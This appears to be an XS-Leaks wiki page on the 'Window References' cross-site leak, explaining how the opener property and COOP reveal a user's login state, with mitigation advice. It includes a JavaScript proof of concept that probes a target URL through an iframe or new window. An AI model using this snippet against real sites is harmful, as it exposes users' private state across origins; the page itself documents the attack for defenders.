 +++
title = "Window References"
description = ""
date = "2020-10-08"
category = [
    "Attack",
]
abuse = [
    "Window References",
]
defenses = [
    "Fetch Metadata",
    "SameSite Cookies",
    "COOP"
]
menu = "main"
weight = 2
+++


If a page sets its `opener` property to `null` or is using [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) protection depending on the users' state, it becomes possible to infer cross-site information about that state. For example, attackers can detect whether a user is logged in by opening an endpoint in an iframe (or a new window) which only authenticated users have access to, simply by checking its window reference. 

## Code Snippet
The below snippet demonstrates how to detect whether the `opener` property was set to `null`, or whether the [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) header is present with a value other than `unsafe-none`. This can be done with both iframes and new windows.

```javascript
// define the vulnerable URL
const v_url = 'https://example.org/profile';

const exploit = (url, new_window) => {
  let win;
  if(new_window) {
    // open the url in a new tab to see if win.opener was affected by COOP
    // or set to null
    win = open(url);
  } else {
    // create an iframe to detect whether the opener is defined
    // won't work for COOP detection, or if a page has implemented framing protections
    document.body.insertAdjacentHTML('beforeend', '<iframe name="xsleaks">'); 
    // redirect the iframe to the vulnerable URL
    win = open(url, "xsleaks");
  }
  
  // wait 2 seconds to let the page load
  setTimeout(() => {
    if (win.closed) {
      console.log("opener is closed");
    } else {
      // check the opener property of the newly opened window
      if(!win.opener) console.log("win.opener is null");
      else console.log("win.opener is defined");
    }
  }, 2000);
}
exploit(v_url);
exploit(v_url, 1);

```

## Defense

To mitigate this type of XS-Leak, be consistent across different pages: set the `opener` property to the same value on all pages using COOP. Using JavaScript to set `opener` to `null` can result in edge cases because it's possible to disable JavaScript entirely using iframe's sandbox attribute.
